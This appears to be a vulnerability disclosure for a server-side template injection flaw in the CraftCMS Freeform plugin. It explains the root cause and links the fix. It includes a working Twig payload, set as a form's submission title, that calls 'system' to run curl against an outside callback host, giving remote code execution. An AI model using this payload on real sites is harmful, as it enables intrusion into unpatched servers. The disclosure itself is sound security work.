



# CVE CraftCMS Freeform

[CraftCMS Freeform](https://plugins.craftcms.com/freeform) contains an SSTI vulnerability, resulting in arbitrary code injection for all users that have access to editing a form (submission title).

Vulnerable versions are v5.0.0 < v5.10.16.

## Steps to reproduce

Create a form:



I created the form "pentest" here as a proof-of-concept. Next, under settings set the following submission title (change domain name to your own server):

```
{{ 'system' | call('curl http://gwgyynafr4feu5xecukf1h2nqew5kw8l.oastify.com/rce') }}
```



This will execute an arbitrary system call. In this case, I perform a curl to a controlled server that will notify me in case there are incoming connections.
Next, include this form in a template/page and submit it:

```
<h1>test</h1>



  {{ form.render() }}

  <p>Form not found.</p>

```

This will have called the curl command. We can verify this by looking at the incoming HTTP request that was created:



The root cause of this issue is that Freeform implements the "call" Twig filter without validating user input. This was fixed in the following [commit](https://github.com/solspace/craft-freeform/commit/06d7f1ae621f7362f39a989efc9c0c187098cf9a).
